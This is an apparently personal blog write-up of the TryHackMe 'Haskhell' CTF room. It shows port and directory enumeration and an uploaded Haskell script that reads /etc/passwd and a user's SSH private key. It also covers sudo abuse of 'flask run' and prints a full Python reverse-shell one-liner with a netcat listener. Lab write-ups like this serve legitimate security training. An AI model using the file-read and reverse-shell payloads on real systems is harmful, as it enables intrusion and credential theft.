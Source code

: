```yaml
---
layout: post
title: Haskhell writeup
date: 2020-08-04 04:00:00 +5:30
description: The Following Post is writeup of Haskell of tryhackme # Add post description (optional)
categories: [TryHackMe, Medium]
tags: [tryhackme, CTF, Flask, Haskell] # add tag
---
```


## Description:

The Following Post is writeup of Haskhell room of tryhackme <https://tryhackme.com/room/haskhell>

|Machine|Details
|:---|:--
|OS | linux
|Rating | Medium
|Creator | sgtscout
|Tech |Haskell and Flask

## Summary:

  The machine have a webpage at port 5001 you will see a message from your prof about uploading assignment
  We made a Simple Haskell script for reading file(I am not good in Haskell). We got lucky about the permissions
  and get id_rsa printed. Login as user then for privesc we have sudo permissions to run flask app and we run python
  reverse shell as flask app.


## Walkthrough:

### Enumeration

Lets start with nmap scan
```terminal
nmap -sC -sV <ip>
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.91 seconds
```
We can see server at port 5001

let's dirbust it
```terminal
┌─[✗]─[silver@parrot]─[~]
└──╼ $gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.30.179:5001
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.30.179:5001
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/04 00:56:40 Starting gobuster
===============================================================
/submit (Status: 200)
===============================================================
2020/08/04 01:01:57 Finished
===============================================================
```

we got a submit dir let's see what we can submit
We need to make a haskell script to see if we can get any output or not

```terminal
└──╼ $cat try.hs
main = do
 x <- readFile "/etc/passwd"
 putStr x
```

Now we know prof lets check out .ssh key
So we changed the readfile to /home/prof/.ssh/id_rsa

we got key hurray crack using john
```terminal
└──╼ $/usr/share/john/ssh2john.py id_rsa > crack.hash
id_rsa has no password!


prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run

Now we know flask run python let's try with python rev shell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    $ export FLASK_APP=hello.py
    $ export FLASK_DEBUG=1
    $ flask run

nc -lvnp 1234
```

Rooted
